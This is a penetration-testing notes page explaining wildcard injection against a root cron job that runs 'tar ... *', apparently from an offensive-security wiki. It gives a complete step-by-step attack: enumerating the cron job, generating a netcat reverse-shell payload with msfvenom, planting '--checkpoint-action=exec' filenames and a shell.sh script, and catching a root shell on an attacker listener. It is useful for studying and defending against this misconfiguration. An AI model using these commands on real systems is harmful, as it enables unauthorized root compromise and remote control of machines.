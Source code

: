 # Wildcard Injection

## Concept

**Wildcard injection** is a privilege escalation technique that abuses how shell wildcards (`*`) expand to filenames. If a privileged script (like a cron job) runs a command such as:

```bash
tar -zxf file.tar.gz *
```

...and we control the directory it's run in, we can create files with names like:

* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell.sh`

These are interpreted by `tar` as **command-line options**, not regular files. This lets us inject malicious behavior — like running our own script as `root` — when the privileged `tar` command executes.

```
[ You control a writable dir ] 
         ↓
[ Cron runs: tar -zxf backup.tar.gz * ]
         ↓
[ You create fake files named as tar options ]
         ↓
* expands to:
    --checkpoint=1
    --checkpoint-action=exec=sh shell.sh
         ↓
[ tar executes your shell.sh as root ]
```

## Example

We can use [`pspy`](../tl-dr/infra/infra-tools/pspy.md) or [manually enumerate](../tl-dr/infra/os/linux/#scheduled-jobs) the target host:

{% code overflow="wrap" %}
```bash
# Enumerate running processes
$ ./pspy
...
2025/05/24 20:46:01 CMD: UID=0     PID=30275  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

# Manually enumerate cron jobs
$ cat /etc/cron.d/2minutes
...
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```
{% endcode %}

The `2minutes` cronjob runs every two minutes as `root` and extracts the `backup.tar.gz` tarball from the `/tmp` directory into the `/opt/admin` directory using a wildcard (`*`). If we have access on the target directory (`/opt/admin`) we can perform a wildcard injection:

```bash
# Check the target directory's permissions
$ ls -ld /opt/admin
drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
```

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload command on the attacking host
$  msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.X.154 LPORT=443 R
...
mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/sh >/tmp/bhksuw 2>&1; rm /tmp/bhksuw
```
{% endcode %}

In order for this to work, we must create both the `--checkpoint` files and the payload script (`shell.sh`) within the target directory (`/opt/admin`) before the cron job runs. This makes the `*` expand to those filenames, effectively injecting the checkpoint options into `tar`:

{% code overflow="wrap" %}
```bash
# Move into the target directory
$ cd /opt/admin

# Create the reverse shell script
$ echo "mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/bash >/tmp/bhksuw 2>&1; rm /tmp/bhksuw" > shell.sh

# Assing execute permissions to the script
$ chmod +x shell.sh

# Create a checkpoint the executes the script
$ touch -- "--checkpoint-action=exec=sh shell.sh"

# Create the checkpoint trigger
$ touch -- "--checkpoint=1"

# Create an empty tarball within the /tmp directory
$ tar -czf /tmp/backup.tar.gz --files-from=/dev/null

# Confirm that everything is in place
$ ls -l
total 4
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint=1
-rwxr-xr-x 1 cassie cassie 102 May 25 09:35 shell.sh

$ ls -l /tmp/back*
ls -l /tmp/back*
-rw-r--r-- 1 cassie cassie 45 May 25 09:44 /tmp/backup.tar.gz
```
{% endcode %}

After two minutes:

```bash
# Catch the reverse shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.X.154] from (UNKNOWN) [192.168.X.157] 44664
id
uid=0(root) gid=0(root) groups=0(root)
```
